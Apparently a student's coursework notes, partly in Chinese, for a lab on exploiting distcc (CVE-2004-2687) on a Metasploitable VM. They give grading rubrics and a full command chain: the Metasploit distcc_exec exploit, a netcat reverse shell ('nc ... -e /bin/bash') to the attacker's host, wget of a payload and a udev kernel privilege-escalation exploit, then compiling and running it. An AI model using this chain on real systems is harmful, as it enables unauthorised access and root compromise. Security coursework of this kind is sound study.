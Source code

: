 # computersecurity

pentesting 渗透

### p1

1)The attack was conducted successfully, as shown by the screenshots (20 points)

\2) No step is missing for replicating the attack (15 points)

\3) The demonstration includes comprehensive explanations of each step, appropriate for a target audience similar to the other students taking this course (15 points)

学生必须利用并记录漏洞 CVE-2004-2687。Distcc 是一个用于在网络上的多台机器上分发 C、C++、Objective C 或 Objective C++ 代码构建的程序。distcc 应始终生成与本地构建相同的结果，易于安装和使用，并且通常比本地编译快得多。distcc 2.x（如 XCode 1.5 和其他版本中使用的），当未配置为限制对服务器端口的访问时，允许远程攻击者通过编译作业执行任意命令，这些命令由服务器在未经授权检查的情况下执行。distcc 不执行任何连接身份验证或授权，而是依赖第三方访问控制。该缺陷可能允许任意命令执行，从而导致完整性丧失。对于此问题，学生必须运行 Kali Linux 和 Metasploitable VM，并演示如何运行 distccd 漏洞利用。解释应该采取演示的形式，说明攻击的每一步，就像写报告或博客文章一样。

特别要注意以下几点：

-  演示应包括攻击的每一步，并从登录 Kali 和 Metasploitable 开始（可以省略 VM 安装）。攻击本身必须首先提取易受攻击的虚拟机的 IP（例如，使用 ifconfig）并使用 nmap 工具运行端口扫描。

- 演示应该完整、全面。考虑到目标受众与班上其他学生具有相同的水平，但没有使用 Metasploit 的经验。
-  演示应包括各个步骤的屏幕截图，突出显示重要信息（例如，正在运行哪个命令或输出中需要注意哪些信息）。演示可以采用报告（连续文本）、幻灯片或博客文章的形式。它可以以 PDF（报告/幻灯片）或 html 格式提交。无论哪种方式，演示都必须包括文字描述，

1. **设置环境：**运行 Kali Linux 和 Metasploitable VM。
2. **识别易受攻击的系统：**使用 Kali 等工具`ifconfig`来识别 IP 地址并`nmap`扫描 Metasploitable VM 上的开放端口。
3. **利用漏洞：**一旦识别出存在漏洞的服务（在本例中为 distccd），就可以使用 Metasploit 来利用该漏洞。这可能涉及在 Metasploit 中查找与 CVE-2004-2687 漏洞相关的特定模块，并使用它来获取访问权限或在远程系统上执行命令。
4. **记录过程：**每个步骤的屏幕截图和描述至关重要。这些应该突出显示所使用的命令、收集的信息以及成功的利用（如果这是目标）。

https://blcklstdbb.gitbooks.io/hackmd/content/lesson-2-samba-exploit.html

### problem2

Selected two CVEs, present in Metasploitable, to perform code
injection and privilege escalation 特权提升, but did not build them into
a complete attack (10 points out of 50).
\2) The attack was built properly and completely (and is described
in the text document deliverable), but does not work (20 points
out of 50).
\3) The attack was built and implemented properly, but the script
needs tweaks or fixes to run on stock Kali Linux (35 points out
of 50).
\4) The attack was built properly, the script runs and completes the
assignment (45 points out of 50)
\5) Same as above, and the attack leaves no trace (filesystem
permissions, additional files…) (50 points out of 50)  

```bash

msfconsole
use exploit/unix/misc/distcc_exec
set RHOST 192.168.23.132
set payload 0
exploit -z
sessions -l
sessions -i 1
```

怎么看是否是privileged process?

distcc就不是特权进程。 

```bash
uname -a
lsb_release -a
searchsploit privilege | grep -i linux | grep -i kernel | grep 2.6
less /usr/share/exploitdb/exploits/linux/local/8572.c
service apache2 restart
sudo ln -s /usr/share/exploitdb/exploits/linux/local/8572.c /var/www/html/
sudo nano /var/www/html/run
#!/bin/bash
nc 192.168.23.131 12345 -e /bin/bash

msfconsole
use exploit/unix/misc/distcc_exec
set RHOST 192.168.23.132
set LHOST 192.168.23.131
set payload 5
exploit 

wget http://192.168.23.131/run
wget http://192.168.23.131/8572.c
gcc -o exploit 8572.c # On Kali, in your low-privilege shell, execute these commands to compile the exploit file and list files.
ps aux | grep udev
./exploit 2737
```

